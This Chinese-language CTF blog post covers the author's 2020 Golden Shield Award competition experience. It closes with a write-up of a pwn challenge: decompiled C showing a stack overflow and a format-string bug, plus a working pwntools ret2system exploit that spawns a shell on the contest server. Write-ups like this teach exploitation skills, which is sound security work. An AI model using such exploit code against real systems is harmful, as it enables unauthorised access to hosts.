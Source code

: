 ```yaml
---
title: 2020年金盾獎
date: 2020-12-17 21:03:22
tags: 
  - pwn
  - comps
---
```


## 心得寫在前
<!-- more -->
### 10/17 初賽
這是我第一次參加金盾獎

初賽的題目總共是四題，競賽時間是兩小時，然後我想抱怨一下:

官網寫包含很多類別，其中有Misc, 但其實每題都是Misc= = (+forensics)

然後工作人員好像自己也不太懂(?)，好這不重要，反正題目幾乎都是鑑識，我不會QQ

只解了第一題就進決賽xD

### 10/20 決賽
其實當初沒有想到會進決賽，想當然爾，我們是墊底進的Orz

今年的題目有所謂的 “教學題”，就是直接提供解法，但會扣分(400 -> 100)

似乎是怕有人會掛蛋嘛XDDDD

賽中出題者好像不太懂分類(?)，把Web出到Pwn去，然後Reverse = Pwn

最後我們燒雞，我解出一題(唯一的)PWN(假Reverse)，然後隊友開了Crypto_教學題的題示

然後就拿到第三了XDD，直接拿一萬回家

### 決賽
這次我唯一解出的題目是 Reverse_教學題

雖說是reverse啦，但看題敘可以明顯看出是有關Buffer Overflow，我引用一小段:

`…小明發現輸入過長的資料會導致 Segmentation Fault…`
看到這邊大概就有底了，然後再打開Binary:

#### 保護機制
```bash
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
開了NX, 沒開Canary，很明顯是要stack overflow，接著看組語:
#### 分析:
`main()`:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  checkInfo();
  system("exit");
  return 0;
}
```
呼叫了`checkInfo()`, 接著就exit，注意這邊用了`system()`

`checkInfo()`:
```c
void checkInfo()
{
  char password[10]; // [esp+16h] [ebp-412h]
  char account[1024]; // [esp+20h] [ebp-408h]

  memset(account, 0, sizeof(account));
  *(_DWORD *)password = 0;
  *(_DWORD *)&password[4] = 0;
  *(_WORD *)&password[8] = 0;
  printf("Please input account: ");
  fflush(stdout);
  fflush(stdin);
  fgets(account, 10240, stdin);
  if ( strchr(account, 64) )
  {
    printf("account is : ");
    fflush(stdout);
    printf(account);
    fflush(stdout);
    putchar(10);
  }
  else
  {
    puts("account failed");
  }
  fflush(stdout);
  printf("Please input password: ");
  fflush(stdout);
  fflush(stdin);
  fgets(password, 1024, stdin);
  if ( !strcmp(password, "123456") )
  {
    printf("password is : ");
    fflush(stdout);
    printf(password);
    fflush(stdout);
    putchar(10);
  }
  else
  {
    puts("password failed");
  }
  fflush(stdout);
}
```
這邊可以看到`password[10], account[1024]`，但`fgets()`讀了10240，明顯的buffer overflow

指向`system@plt`，接著布置參數就好
#### exploit
```python
#!/usr/bin/env python2
from pwn import *
import pwnlib.elf
context.log_level = 'debug'

e = ELF('./check_passwd')
p = process('./check_passwd')
p = remote('10.3.202.18', 6666)

payload = '\x00'*1036
payload += p32(e.symbols['system'])
payload += p32(e.symbols['main'])
payload += p32(e.search('sh').next())

p.sendlineafter(':', payload)
#p.sendline('A')

p.interactive()
p.close()
```

